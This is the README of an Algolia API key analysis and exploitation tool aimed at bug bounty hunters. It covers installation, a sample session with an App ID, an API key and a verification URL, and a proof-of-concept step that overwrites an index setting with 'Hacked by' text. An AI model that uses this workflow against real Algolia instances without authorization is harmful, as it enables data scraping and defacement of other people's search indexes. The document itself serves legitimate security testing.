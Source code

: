 # Algopwn

**Algopwn — Algolia API Key Analyzer & (authorized) Exploiter**

Algopwn helps security practitioners quickly assess Algolia API key exposures. The tool prompts for App ID and API key, fetches key metadata and ACLs, and classifies keys as informative (read-only) or sensitive (modifiable). For sensitive keys, Algopwn lists indexes, fetches index data and settings, and — only after interactive confirmation — can apply a reversible PoC update and print a copy-paste verification URL.

> ⚠️ **Important**: Only use Algopwn against applications you own or have explicit written permission to test (bug bounty scope, pentest engagement, etc.). Misuse may be illegal and unethical.

---

## Features

- Prompt-based interactive workflow (no required CLI args).
- Fetches key metadata and ACLs from Algolia.
- Distinguishes **informative (read-only)** ACLs vs **sensitive (modify/delete)** ACLs.
- If sensitive ACLs are present, lists indexes and allows you to:
  - fetch index data (single index),
  - fetch index settings,
  - optionally update `highlightPreTag` to a PoC value (e.g., `"hacked"`).
- Prints a copy-paste **PoC verification URL** after a successful update.
- Colorised terminal output for readability.
- Small, dependency-light: uses `requests` and `colorama`.


## Installation

1. Clone the repo:
    ```
    git clone https://github.com/Suryesh/Algopwn.git
    cd Algopwn
    ```

2. Install dependencies:
   ```
    pip install requests colorama
    ```

---

## Help
```
python3 algopwn.py -h
```

![Help](img/help.png)

⚠️ **Important**:  You need to change one line of code before using this tool:

```
Line number 82: payload = {"highlightPreTag": "Hacked by Suryesh"}
- change highlightPreTag syntax with your name i.e, {"highlightPreTag": "Hacked by (yourname-xyz)"}
```

## Usage

1. Run the script `python3 algopwn.py` and follow the prompts:
2. Enter the Algolia App ID and API key when prompted.
3. The tool prints key info (JSON), then:
   - If the key is **informative only** (e.g., `search`, `listIndexes`, `settings`), the tool reports this and exits.
   - If the key is **sensitive** (e.g., `editSettings`, `addObject`, `deleteIndex`), the tool asks if you want to proceed with exploitation steps.
4. If you choose to proceed, you can pick an index, view its data/settings, and confirm an update. After updating, a PoC URL is printed.

![Usages](img/usages.png)

```
python3 algopwn.py

   _   _               ___
  /_\ | | __ _  ___   / _ \__      ___ __
 //_\\| |/ _` |/ _ \ / /_)/\ \ /\ / / '_ \
/  _  \ | (_| | (_) / ___/  \ V  V /| | | |
\_/ \_/_|\__, |\___/\/       \_/\_/ |_| |_|
         |___/

      Algolia API Key Exploiter by Suryesh

You can follow me on Twitter/X: https://x.com/Suryesh_92

Subscribe to my Youtube Channel: https://www.youtube.com/@HackWithSuryesh

Enter Algolia Application ID: MH9A52MZTO
Enter Algolia API Key: 4d89644522b528406ec821a713da60fe

{ "info": { ... } }

This key only has ['search'] permissions. So, it is Informative only.


If a sensitive key is detected:

This key has sensitive ACLs: ['editSettings', 'deleteObject', etc.]
Do you want to proceed with exploitation? (y/n): y

Indexes available:
1. products_v1
2. users_public

Enter the index name to work with: products_v1
[fetch data]
[fetch settings]

Do you want to update this index's settings with payload (highlightPreTag=Hacked by Suryesh)? (y/n): y
[+] Update Response: {...}

[+] PoC Verification URL:
https://MH9A52MZTO-dsn.algolia.net/1/indexes/products_v1/settings?x-algolia-application-id=MH9A52MZTO&x-algolia-api-key=4d896...
```

## Video PoC:

[![Watch PoC on YouTube](https://img.shields.io/badge/Watch-PoC_on_YouTube-red?logo=youtube)](https://www.youtube.com/watch?v=DtSpnyILWd4)

<p align="center">
  <a href="https://www.youtube.com/watch?v=DtSpnyILWd4" target="_blank">
    <img src="https://img.youtube.com/vi/DtSpnyILWd4/hqdefault.jpg" alt="Algopwn PoC video" width="720"/>
  </a>
</p>


## References/Write-up:

[![Medium Blog](https://img.shields.io/badge/Read%20My-Blog-black?logo=medium&logoColor=white)](https://medium.com/@hackwithsuryesh/algolia-api-key-exploitation-leads-to-1000-bounty-p2-on-private-program-2e147f052ff0)

## You may follow my social media:

<p align="center">
  <a href="https://x.com/Suryesh_92"><img src="https://img.shields.io/badge/Twitter-@Suryesh__92-blue?logo=twitter&logoColor=white" alt="Twitter"></a>
  <a href="https://www.youtube.com/@HackWithSuryesh"><img src="https://img.shields.io/badge/YouTube-Subscribe-red?logo=youtube&logoColor=white" alt="YouTube"></a>
  <a href="https://medium.com/@hackwithsuryesh"><img src="https://img.shields.io/badge/Medium-Blog-black?logo=medium&logoColor=white" alt="Medium"></a>
  <a href="https://instagram.com/suryesh_92"><img src="https://img.shields.io/badge/Instagram-Follow-pink?logo=instagram&logoColor=white" alt="Instagram"></a>
  <a href="https://www.linkedin.com/in/dhananjay-kumar-suryesh-535995220/"><img src="https://img.shields.io/badge/LinkedIn-Connect-blue?logo=linkedin&logoColor=white" alt="LinkedIn"></a>
  <a href="https://discord.com/invite/EfgnVNbh3N"><img src="https://img.shields.io/badge/Discord-Join-5865F2?logo=discord&logoColor=white" alt="Discord"></a>
</p>



## License
This project is licensed under the MIT License. See the [![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](LICENSE) file for details.

 ## 💰 You can help me by Donating
 
  [![BuyMeACoffee](https://img.shields.io/badge/Buy%20Me%20a%20Coffee-ffdd00?style=for-the-badge&logo=buy-me-a-coffee&logoColor=black)](https://buymeacoffee.com/hackwithsuryesh) [![PayPal](https://img.shields.io/badge/PayPal-00457C?style=for-the-badge&logo=paypal&logoColor=white)](https://www.paypal.com/paypalme/Suryesh92) 


## Disclaimer
This tool is intended for educational and ethical testing purposes only. Do not use it for any illegal or unauthorized activities. The author is not responsible for any misuse of this tool.
